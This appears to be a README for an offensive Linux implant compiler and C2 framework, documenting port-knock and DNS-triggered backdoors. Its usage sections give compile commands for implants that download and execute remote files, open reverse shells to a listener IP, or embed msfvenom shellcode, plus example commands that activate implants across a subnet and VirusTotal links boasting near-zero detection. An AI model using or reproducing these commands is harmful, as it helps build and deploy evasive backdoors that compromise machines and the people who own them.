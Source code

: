 # Unnamed Implant Documentation

This is our implant compiler. Running compiler.py in the terminal will allow a user to create an implant program that can be tailored for specific targets and capabilities. The implants are coded to work with Linux machines.


## Features

## Software Requirements


### Dependencies:

Required:


To Build x86:


To Load Shellcode:


For Reverse Shell:


## Files

### C Implant

*The actual implant file will simply be named "implant" by default.

* compiler.py is a basic python framework which allows easy compilation and logging of all implants, similar to the functionality of Veil-Evasion for linux devices

* checker.c and listener.c are the main programs which contain the implant
* attacks.c contains implementations of the attacks
* attacks.h is a header
* dynamic.h is a header file dynamically generated by compiler.py that defines values for the actual compiler

* log.csv is log created during compilation, containing information about all backdoors created.
* activate.py is a python script that parses the logfile, sets up listeners, and activates specified IPs inside of a subnet

### C2 Server

* servery.py is a flask based HTTP server which responds to requests with C2 information and logs results
* terminal.py is a shell that allows for somewhat easy configuration of C2
* client.py is a python implementation of the client functionality
* client.c is a shell that eventually will contain the implementation of the C2 server for inclusion with the implant

## Notes
-d adds debugging comments for the C code, very useful.

If testing locally, change -intfc to 'lo'.

# Usage

## Compilation

### Listener with a List of Ports to Port Knock
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400

### Listener with Port Knock Counter
compiler.py -o implant -p listener -intfc eth0 -act SECRET_NUMBER -size 3 -key 1000

### Checker with Specified Domain
compiler.py -o implant -p checkDNS -delayT 10 -trig "https://target.url"

## Attacks
### Bang
-atkB
Creates a file named bang.txt and if debug is turned on, prints "bang"

### Download and Execute
-atkd
Downloads a file from a URL specified at compile time and executes it

### Reverse Shell
-atkR -revip _ip_addr_ -revport _port_num_
Sends a reverse shell back to a listener specified at compile time.

## Shellcode
-atkSc -a x64 -p linux -ip _host_ip -revip _ip_addr_ -revport _port_num_

Shellcode is dynamically generated from msfvenom, parsed, and entered into dynamic.h for inclusion in compiled binary

# Example Usage

```bash
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400 -atkSc -a x64 -p linux -ip 192.168.199.230 -revip 199.168.199.101 -revport 1337
sudo ./implant
```

```bash
msfconsole
msf > load msgrpc Pass=mypassword
```

```bash
activate.py 192.168.199.0/24
```

# Detection



## VT Detections:
[0/57 Stripped Binary](https://www.virustotal.com/gui/file/5524cd773324ce3b62c0a016d5a14b2bbc92532eb1c20113fb37cbc50cd37bf4)
[1/58 Unstripped Binary](https://www.virustotal.com/gui/file/af3ca3daedc2ebfe58630550dc7cfa2fb9f167326d74fdb6be61a0db30ba1fa4)
